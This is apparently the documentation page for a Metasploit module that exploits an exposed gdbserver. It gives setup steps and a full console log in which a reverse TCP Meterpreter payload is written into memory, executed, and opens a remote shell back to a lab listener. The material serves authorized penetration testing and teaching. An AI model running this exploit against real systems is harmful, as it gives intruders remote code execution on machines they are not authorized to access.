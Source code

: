 ## Vulnerable Application

This module attempts to execute an arbitrary payload on a loose
[gdbserver](https://sourceware.org/gdb/onlinedocs/gdb/Server.html) service.

## Installation Steps

Install gdbserver:

```
apt-get install gdbserver
```

## Verification Steps

Start gdbserver on a TCP port:

```
gdbserver 0.0.0.0:1234 /bin/true
```

1. Start msfconsole
1. Do: `use exploit/multi/gdb/gdb_server_exec`
1. Do: `set RHOSTS <ip>`
1. Do: `set RPORT <port>`
1. Do: `run`
1. You should get a session.

## Options

## Scenarios

### gdbserver 10.2 on Ubuntu 20.04 (x86_64)

```
msf > use exploit/multi/gdb/gdb_server_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf exploit(multi/gdb/gdb_server_exec) > set rhosts 192.168.200.135
rhosts => 192.168.200.135
msf exploit(multi/gdb/gdb_server_exec) > set rport 1234
rport => 1234
msf exploit(multi/gdb/gdb_server_exec) > set target x86_64
target => x86_64
msf exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.135:1234 - Performing handshake with gdbserver...
[*] 192.168.200.135:1234 - Stepping program to find PC...
[*] 192.168.200.135:1234 - Writing payload at 00007ffff7fd0103...
[*] 192.168.200.135:1234 - Executing the payload...
[*] Sending stage (3020772 bytes) to 192.168.200.135
[*] Meterpreter session 1 opened (192.168.200.130:4444 -> 192.168.200.135:33198 ) at 2022-04-16 16:21:14 -0400

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer     : 192.168.200.135
OS           : Ubuntu 20.04 (Linux 5.13.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
